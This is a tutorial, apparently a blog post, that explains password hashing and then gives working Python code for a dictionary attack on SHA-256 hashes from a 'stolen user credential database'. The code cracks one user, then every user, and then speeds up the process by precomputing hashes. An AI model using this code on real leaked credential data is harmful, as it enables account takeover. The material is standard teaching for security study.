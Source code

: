 Password cracking through Bruteforcing may take a long time and most of the users usually use common English words or names, and numbers as their passwords. Therefore, Dictionary attacks can be quite useful to crack the passwords.

A dictionary is a simple txt file that may contain from a few thousands to a few millions of common words or phrases (includes numbers as well).

If you have a stolen user credential database, you might be able to crack the passwords by matching all dictionary words against the hashed passwords!

A Hash is typically a one-way function that creates a unique digest from an input string. For example, if your password is hello_there, the output hash digest would look like the following

```Algorithm	Output Hash
MD5	290e1c9cc54995453b810dfb15b853a1
SHA-1	f976f0ad02501f0a95bfcf3c1081e0759b508d47
SHA-256	299d2e40d6b7026b6029b8ff4cff0ad0fbfe14b20d704a609a2631cada32fbc1```
Here, MD5, SHA-1, and SHA-256 are widely used hashing algorithms to convert a string into a one-way output.

The term one-way means you cannot retrive the string from the hashed output. It is important to hash the passwords because we do not want to keep passwords in plain sight.

If you are logging into your social media account (e.g., Facebook/Instagram) or your laptop, you have to input your username and password. However, the systems maintain a user database containing your name and the hashed password. For example,

```user_name	password_hash
mrx	678cfd979de6de0ec70d08b0b7a4b6aad645802abe2504aed9c4d1ca3da101c5
guest_user	3809f08dc16f01a7c9393eab3146e38e7ffd7d19b0aa5a3754aa2f7780fc4b77
other	b712430498d0b31595b86c34a939b4dcdde5050a4e8a143e99037a6e6984a68f```
Now, suppose, you have stolen/found a user credential database like this. However, because you cannot calculate the string, you need to match different guessed strings after hashing.

Requirements
Stolen User Credential Database (two columns: username, password_hash)
A dictionary file (each line contains a dictionary word)
Attacker should know which algorithm is being used. Although it’s not a big deal. The attacker can try all algorithms one after another. In this post we will use SHA-256
Create a simple Python Program
First, let’s import the necessary modules

import pandas as pd
from hashlib import sha256
Now, we need to write a function that returns True if the hashed dictionary word matches the database password

```def dictionary_attack(dictionary_word,target_hash):
    pass_bytes = dictionary_word.encode('utf-8')
    pass_hash = sha256(pass_bytes)
    digest = pass_hash.hexdigest()
    if digest == target_hash:
        return True```
Suppose, we want to check whether we can crack the password of the first user. Therefore, we need to get the first password_hash from the user database, and pass all the dictionary words one after another.

```if __name__ == "__main__":
    # read user DB and the dictionary using pandas.read_csv
    dictionary = pd.read_csv("password_dictionary", names=['passwords'])
    users = pd.read_csv("users")
    
    # match all words from the dictionary until it matches/ends
    for test_word in dictionary["passwords"]:
        if dictionary_attack(test_word,users["password_hash"][0]) == True:
            print("Matched Password: ", test_word)
            break
        else:
            continue```
Now, within a few seconds, we get a matched word from our dictionary: 2midrash.

Well, if you want to compromise all user password, you can add a new for loop that iterates over the indices of all users. Or for any range of user, you can create a function like this and call it in the main function.

# inputs an string and returns the sha256 digest
```def create_hash(word):
    pass_bytes = word.encode('utf-8')
    pass_hash = sha256(pass_bytes)
    digest = pass_hash.hexdigest()
    return digest```

# inputs the number of users and returns nothing
# intended for finding passwords for multiple users
```
def find_multiple_users(num_user):
    for i in range(num_user):
        check_pass = users["password_hash"][i]
        for test_word in dictionary["passwords"]:
            if create_hash(test_word) == check_pass:
                print("Found Matched Password:", test_word, "for user", users["username"][i])
                break
```
However, the code we used above is enefficient while calculating for multiple users. Can you guess, why?

Because we are creating hash each time we match against the user database passwords. So, if we try 20000 dictionary words againt 20 user passwords, the number of hashing calculation would be 20000*20.

To avoid the additional computation, we can precompute the hash and keep those values in a dictionary. The new dictionary will have the dictionary words as keys and the hashed outputs will be the values. Therefore, we can add an extra function to the code as follows

```# Returns the dictionary of password and corresponding digests
def hash_dictionary():
    global hash_dict
    hash_dict = {}
    for test_word in dictionary["passwords"]:
        hash_dict[test_word] = create_hash(test_word)
    return hash_dict
```

